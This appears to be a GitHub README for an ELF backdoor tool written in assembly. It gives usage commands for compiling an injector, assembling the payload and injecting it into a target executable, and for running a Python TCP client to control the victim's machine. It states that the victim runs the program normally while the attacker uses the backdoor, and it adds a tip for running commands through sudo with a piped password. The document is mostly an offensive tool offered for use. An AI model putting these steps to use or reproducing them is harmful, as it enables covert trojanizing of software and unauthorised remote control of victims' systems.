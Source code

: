 # elf_backdoor

It is an elf backdoor written in pure assembly language.

# Usage
## Attacker
### backdoor
```bash
$ gcc elfinject.c -o elfinject -lelf
$ nasm -f bin backdoor.s -o backdoor.bin
$ ./elfinject elftarget backdoor.bin ".injected" 0x800000 0
```
### backdoor_client
```
$ python3 tcpClient.py
```
## victim
If victim download or obtain the file in any way
```
$ ./elftarget
```
The victim uses the original program without problems and Attackers use backdoors.

# Demo
## backdoor
![backdoor](https://github.com/gbdngb12/Simple-elf-backdoor/assets/104804087/84720f5f-7caf-45aa-b28a-00632b779317)

## backdoor_client
![client](https://github.com/gbdngb12/Simple-elf-backdoor/assets/104804087/29cf4cf6-bf88-456f-8cc2-052c8ae33f0c)

# Tips
## How to use sudo
```bash
$ python3 tcpClient
echo "password" | sudo -S <command>
```
